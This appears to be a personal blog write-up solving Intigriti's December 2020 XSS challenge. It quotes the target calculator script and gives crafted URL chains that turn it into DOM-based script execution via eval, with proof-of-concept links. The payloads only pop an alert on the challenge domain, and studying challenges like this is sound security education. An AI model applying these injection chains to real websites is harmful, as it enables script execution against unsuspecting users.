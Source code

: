 # Intigriti's December XSS Challenge Writeup


This month’s Intigriti’s XSS challenge was interesting as it was the first time I saw it had unintentded solutions as well.
<!--more-->

Challenge on webarchive [https://web.archive.org/web/20201208103813/https://challenge-1220.intigriti.io/](https://web.archive.org/web/20201208103813/https://challenge-1220.intigriti.io/).
Vulnerable script on webarchive [https://web.archive.org/web/20201210000939/https://challenge-1220.intigriti.io/script.js](https://web.archive.org/web/20201210000939/https://challenge-1220.intigriti.io/script.js).


### Solution 1

Parsing query parameters using custom function (e.g. `getQueryVariable`, line 3) allows to specify those in URL hash on line 11 (below) `window.location.href.substr(...)`, as `String.prototype.indexOf()` is looking for the first occurance of `?` (question mark):

```javascript
function init(){
  try{
    document.getElementById("result").value = calc(getQueryVariable("num1"), getQueryVariable("num2"), getQueryVariable("operator"));
  }
  catch(ex){
    console.log(ex);
  }
}
...
function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

Two of the sources (`num1` and `num2`) are passed to `setNumber` function (line 23) when clicking on a number, which itself then passes it to `parseInt` (lines 101, 104), also there is no protection against iframing it, so, having such URL [https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=eval](https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=eval) in an iframe, we can execute `parseInt=eval` as `operation` in the context of the vulnerable webpage, because `=` is whitelisted as an operator:
```javascript
const operators = ["+", "-", "/", "*", "="];
function calc(num1 = "", num2 = "", operator = ""){
  operator = decodeURIComponent(operator);
  var operation = `${num1}${operator}${num2}`;
  document.getElementById("operation").value = operation;
  if(operators.indexOf(operator) == -1){
    throw "Invalid operator.";
  }
  if(!(/^[0-9a-zA-Z-]+$/.test(num1)) || !(/^[0-9a-zA-Z]+$/.test(num2))){
    throw "No special characters."
  }
  if(operation.length > 20){
    throw "Operation too long.";
  }
  return eval(operation);
}
...
window.onload = function(){
 init();
 var numberBtns = document.body.getElementsByClassName("number");
 for(var i = 0; i < numberBtns.length; i++){
   numberBtns[i].onclick = function(e){
     setNumber(e.target.innerText)
   };
 };
 var operatorBtns = document.body.getElementsByClassName("operator");
 for(var i = 0; i < operatorBtns.length; i++){
   operatorBtns[i].onclick = function(e){
     setOperator(e.target.innerText)
   };
 };

  var clearBtn = document.body.getElementsByClassName("clear")[0];
  clearBtn.onclick = function(){
    clear();
  }
}
...
function setNumber(number){
  var url = new URL(window.location);
  var num1 = getQueryVariable('num1') || 0;
  var num2 = getQueryVariable('num2') || 0;
  var operator = getQueryVariable('operator');
  if(operator == undefined || operator == ""){
    url.searchParams.set('num1', parseInt(num1 + number));
  }
  else if(operator != undefined){
    url.searchParams.set('num2', parseInt(num2 + number));
  }
  window.history.pushState({}, '', url);
  init();
}
```

Now we can redirect the iframe to a new hash [https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=alert(document.domain)//](https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=alert(document.domain)//) and as, only, the URL hash is changed, no request is going to be sent to the server and if the user hits any number, the following script will be executed `alert(document.domain)//<number>`.

A similar technique can be leveraged when having `calc=eval` executed then redirecting to a new hash [https://challenge-1220.intigriti.io/#?num1=alert(document.domain)&operator=%3d&num2=eval](https://challenge-1220.intigriti.io/#?num1=alert(document.domain)&operator=%3d&num2=eval), where the user has to hit an operator

POCs:
- for numbers - [https://jsfiddle.net/td6yzm0w/1/](https://jsfiddle.net/td6yzm0w/1/)
- for operators - [https://jsfiddle.net/td6yzm0w/](https://jsfiddle.net/td6yzm0w/)

![Intigriti tip tweet](response.png "Intigriti tip tweet")

### Solution 2

Now the intended one, that leads to DOM XSS (Cross site swagging) with no user interaction.
![Intigriti tip tweet](tip.png "Intigriti tip tweet")


Very right, because `getQueryVariable` iterates in a loop and takes the value of the last occurrence of the requested parameter (lines 5-10) 
```javascript
function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

Chain:
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&) - execute `onhashchange=init`
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval) - changing hash, triggering `onhashchange` which is `init` now and executing `calc=eval`
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval&num1=alert('achievement%20unlocked:%20unlimited%20swag%20vouchers%20'%2bdocument.domain)](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval&num1=alert('achievement%20unlocked:%20unlimited%20swag%20vouchers%20'%2bdocument.domain)) - triggering `onhashchange` and passing `alert('achievement unlocked: unlimited swag vouchers '+document.domain)` to `eval`

Now you can claim your unlimited swag voucher with 0 click:
![Pop an alert](alert.png "Pop an alert")


POC: [https://jsfiddle.net/vsz08bpo/](https://jsfiddle.net/vsz08bpo/) 
